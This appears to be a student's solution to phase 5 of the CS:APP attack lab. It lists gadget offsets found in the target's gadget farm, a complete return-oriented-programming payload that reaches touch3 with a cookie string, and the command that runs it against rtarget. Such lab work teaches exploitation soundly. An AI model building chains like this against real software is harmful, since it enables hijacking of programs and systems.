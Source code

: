         00000000004019a7 <addval_219>:
        4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
        4019ad:	c3                   	retq  
        + 4019ab:58 90 c3 -> popq %rax;ret;

        00000000004019db <getval_481>:
        4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
        4019e0:	c3                   	retq   
        + 4019dd:89 c2 90 c3 -> movl %eax, %edx;ret;

        0000000000401a68 <getval_311>:
        401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
        401a6d:	c3                   	retq  
        + 401a69: 89 d1 -> movl %edx, %ecx; 08 db -> orb %bl, %bl;//无影响 ret;

        0000000000401a11 <addval_436>:
        401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
        401a17:	c3                   	retq   
        + 401a13: 89 ce 90 90 c3 -> movl %ecx, %esi;ret;


        0000000000401a03 <addval_190>:
        401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
        401a09:	c3                   	retq     
        + 401a06:48 89 e0 c3 -> movq %rsp, %rax;ret

        00000000004019a0 <addval_273>:
        4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
        4019a6:	c3                   	retq   
        + 4019a2: 48 89 c7 c3 -> movl %rax, %rdi;ret;

        00000000004019d6 <add_xy>:
        4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
        4019da:	c3                   	retq   
        + 4019d6:	48 8d 04 37 -> lea    (%rdi,%rsi,1),%rax
        
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        00 00 00 00 00 00 00 00
        ab 19 40 00 00 00 00 00  /*  popq %rax */
        20 00 00 00 00 00 00 00  /* 偏移量 */
        dd 19 40 00 00 00 00 00  /* movl %eax, %edx;ret; */
        69 1a 40 00 00 00 00 00  /* movl %edx, %ecx;ret; */
        13 1a 40 00 00 00 00 00  /* movl %ecx, %esi;ret; */
        06 1a 40 00 00 00 00 00  /* movq %rsp, %rax;ret */
        a2 19 40 00 00 00 00 00  /* movl %rax, %rdi;ret; */
        d6 19 40 00 00 00 00 00  /* lea (%rdi,%rsi,1),%rax */
        a2 19 40 00 00 00 00 00  /* movl %rax, %rdi;ret; */
        fa 18 40 00 00 00 00 00  /* touch3 address */
        35 39 62 39 39 37 66 61  /* cooki字符串 */

        ./hex2raw -i phase5.txt | ./rtarget -q

